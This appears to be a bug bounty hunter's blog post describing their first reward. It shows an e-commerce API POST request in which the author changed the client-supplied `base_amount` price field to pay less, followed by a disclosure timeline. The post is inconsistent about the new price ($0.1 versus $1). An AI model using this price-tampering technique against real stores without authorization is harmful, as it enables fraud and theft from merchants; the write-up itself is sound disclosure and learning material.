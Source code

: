 
  title: "my first bounty as a bug bounty hunter (business logic)",
  date: "2021-03-13",
  summary: "A personal journey of getting the first bounty as a bug bounty hunter by finding a business logic vulnerability.",
};

# Introduction

Hello,  
I want to share with you my journey getting my first bounty as a bug bounty hunter. I started exploring the bug bounty world when I saw sir Japz Divino and Tech in the Province videos on YouTube explaining what is bug bounty and how they got started as hunters. Of course, I had some experience in the Cyber World, but it was only a little amount of it. After listening to their advice, I joined their Facebook community and started exploring a list of easy bugs. After learning a few interesting bugs, I began hunting them in the real world.

- Japz Divino — [YouTube](https://www.youtube.com/@TechInTheProvince)
- Tech in the Province — [YouTube](https://www.youtube.com/@japzdivino)

# HOW I MANAGED TO GET MY FIRST BOUNTY

So, I started joining BugCrowd and HackerOne platforms, but I didn’t have many good findings. I then decided to start dorking some Bug Bounty programs outside of these two platforms. After some exploration, I found one that caught my attention. When I began buying items, I noticed that the item price was visible in the POST request. I tried changing the price from $10 to $0.1, and it was a success!

The request looked like this:
```http
POST /v1/buy HTTP/1.1
Host: api.redacted
{
  "base_amount": "10.00000000",
  "source_client": "web",
  "pay_with_wallet": "true",
  "product_code": "PRODUCT10",
  "recipient_email": "xxxx@mail.com"
}
```

Edited Request:

```http
{
  "base_amount": "0.10000000",
  "source_client": "web",
  "pay_with_wallet": "true",
  "product_code": "PRODUCT10",
  "recipient_email": "xxxx@mail.com"
}

```

<img src="https://miro.medium.com/v2/resize:fit:1004/format:webp/1*wKcmALMMwAQ4CyvVbjzbgQ.png" alt="image" />

I was able to change the `base_amount` from $10 to $1.


## Timeline

[02/08/2021] — Bug reported

[03/13/2021] — Rewarded $X,XXX
